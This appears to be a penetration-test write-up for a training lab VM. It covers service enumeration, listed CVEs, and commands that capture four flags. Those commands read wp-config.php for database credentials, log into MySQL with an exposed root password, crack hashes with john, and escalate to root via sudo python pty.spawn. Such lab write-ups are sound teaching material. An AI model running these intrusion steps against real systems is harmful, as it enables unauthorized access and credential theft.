








# Red Team: Summary of Operations

## Table of Contents

-   Exposed Services
-   Critical Vulnerabilities
-   Exploitation

### Exposed Services

1.  *Find all machines on the network*

> Nmap -sP 192.168.1.1-255
>
>  alt="Graphical user interface, text Description automatically generated" />

Nmap scan results for each machine reveal the below services and OS
details:

    $ nmap -sV  192.168.1.110
     

This scan identifies the services below as potential points of entry: -
Target 1 - This scan identifies the services below as potential points
of entry:

| **Port** | **Type** | **State** | **Service** | **Version**     |
|----------|----------|-----------|-------------|-----------------|
| 22       | TCP      | Open      | SSH         | OpenSSH 6.7p1   |
| 80       | TCP      | Open      | httpd       | Apache 2.4.10   |
| 111      | TCP      | Open      | rpcbind     | 2-4             |
| 139      | TCP      | Open      | Netbios-ssn | Samba 3.x – 4.x |
| 445      | TCP      | Open      | Netbios-ssn | Samba 3.x – 4.x |

The following vulnerabilities were identified on Target 1:

Target 1

CVE-2021-28041 open SSH

CVE-2017-15710 Apache https 2.4.10

CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS

CVE-2017-7494 Samba NetBIOSExploitation

The Red Team was able to penetrate `Target 1` and retrieve the following
confidential data: - Target 1

\- `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}

> \- **Exploit Used:** curl
>
> \- **Command used**: curl <http://192.168.1.110/service.html> \| grep
> flag

\- `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

\- **Exploit Used** - *ssh in to 192.168.1.110 using Michael’s account*

*find / -type f -name 'flag\*.txt' 2\>/dev/null*

\- *Command Used: cat /var/www/flag2.txt*

\- `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}

\- **Exploit Used** – Use wordpress DB information retrieved from
wordpress configuration

cat /var/www/html/wordpress/wp-config.php \| grep -i db

Access the mysql db

mysql -u root -pR@v3nSecurity

show databases;

\- *Command Used to get the flag 3:*

*use wordpress; select post_content from wp_posts where post_content
like 'flag%';*

\- `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}

\- **Exploit Used**

Exploit option 1:

\- *Query wordpress DB*

\- *Command Used: select post_content from wp_posts where post_content
like 'flag%';*

Exploit option 2:

-   Used john to crack the password hash obtained from MySQL database,
    secured a new user shell as Steven, escalated to root.

-   Cracking the password hash with john/johnny

>  alt="Graphical user interface, application Description automatically generated" />

-   ssh using steven’s account to 192.168.1.110

-   Escalating to root using the command: sudo python -c ‘import
    pty;pty.spawn(“/bin/bash”)’

-   Run command to find the file: find / -type f -name 'flag\*.txt'
    2\>/dev/null

-   Read the flag4 file: cat /root/flag4.txt

>  alt="Text Description automatically generated" />
